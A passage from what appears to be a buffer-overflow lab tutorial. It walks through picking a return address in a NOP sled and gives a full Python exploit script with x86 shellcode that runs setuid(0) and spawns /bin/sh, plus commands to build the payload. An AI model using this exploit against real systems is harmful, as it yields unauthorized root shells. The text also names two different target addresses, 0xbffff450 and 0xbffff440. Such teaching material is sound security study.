 #### Choosing an Address

- You need to choose an address to put into $eip. If everything were perfect, you could simply use the address of the first byte of the shellcode. However, to give us some room for error, choose an address somewhere in the middle of the NOP sled.
- In the figure above, a good address to use is
  ```
  0xbffff450
  ```

#### Quit and Insert the Correct Address Into the Exploit

- We need to change eip to 0xbffff440. However, since the Intel x86 processor is "little-endian", the least significant byte of the address comes first, so we need to reverse the order of the bytes, like this.
  ```bash
  eip = '\x50\xf4\xff\xbf'
  ```
- In the Terminal, execute these commands.
  ```bash
  cp b3 b4
  nano b4
  ```
- Change the address in eip to match the code and image below.
  ```python 
  #!/usr/bin/python 
  nopsled = '\x90' * 64 
  shellcode = (
  '\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2' +
  '\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89' +
  '\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
  )
  padding = 'A' * (112 - 64 - 32)
  eip = '\x50\xf4\xff\xbf'
  print nopsled + shellcode + padding + eip
  ```
  ![Picture](../12.%20Linux%20Buffer%20Overflows/Image/26.png)
- In a Terminal window, execute these commands.
  ```bash
  chmod a+x b4
  ./b4 > e4
  hexedit e4
  ```
- The exploit should look exactly like the image below.